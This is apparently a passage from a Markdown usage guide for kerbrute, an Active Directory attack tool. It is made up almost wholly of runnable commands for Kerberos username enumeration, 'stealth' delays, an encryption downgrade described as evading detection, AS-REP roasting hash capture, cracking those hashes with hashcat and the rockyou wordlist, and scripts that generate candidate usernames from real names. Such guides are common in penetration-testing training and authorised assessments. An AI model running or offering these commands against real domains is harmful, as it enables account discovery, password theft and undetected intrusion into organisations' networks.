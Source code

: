 ### Advanced Usage

#### Thread Control
```bash
# Increase threads for faster enumeration
./kerbrute userenum -d domain.local users.txt --dc 10.10.10.10 -t 50

# Single thread with delay (stealth)
./kerbrute userenum -d domain.local users.txt --dc 10.10.10.10 --delay 1000
```

#### Hash Capture (AS-REP Roasting)
```bash
# Capture AS-REP hashes for offline cracking
./kerbrute userenum -d domain.local users.txt --dc 10.10.10.10 --hash-file asrep_hashes.txt

# Then crack with hashcat
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

#### Force Downgraded Encryption
```bash
# Use weaker encryption (sometimes bypasses detection)
./kerbrute userenum -d domain.local users.txt --dc 10.10.10.10 --downgrade
```

### Creating Username Lists

#### Common Username Conventions
```bash
# Based on "John Smith" - create variations
cat > usernames.txt << EOF
john.smith
j.smith
jsmith
smith.john
smithj
john_smith
jsmitha
johnsmith
john
smith
EOF
```

#### Automated Username Generation
```bash
# Use Username Anarchy for pattern generation
git clone https://github.com/urbanadventurer/username-anarchy.git
echo "John Smith" | ./username-anarchy/username-anarchy > generated_users.txt

# Or create custom script
cat > generate_users.sh << 'EOF'
#!/bin/bash
first="$1"
last="$2"
echo "${first,,}.${last,,}"        # john.smith
echo "${first:0:1}${last,,}"       # jsmith
echo "${first,,}${last,,}"         # johnsmith
echo "${last,,}.${first:0:1}"      # smith.j
echo "${last,,}${first:0:1}"       # smithj
EOF

chmod +x generate_users.sh
./generate_users.sh John Smith
```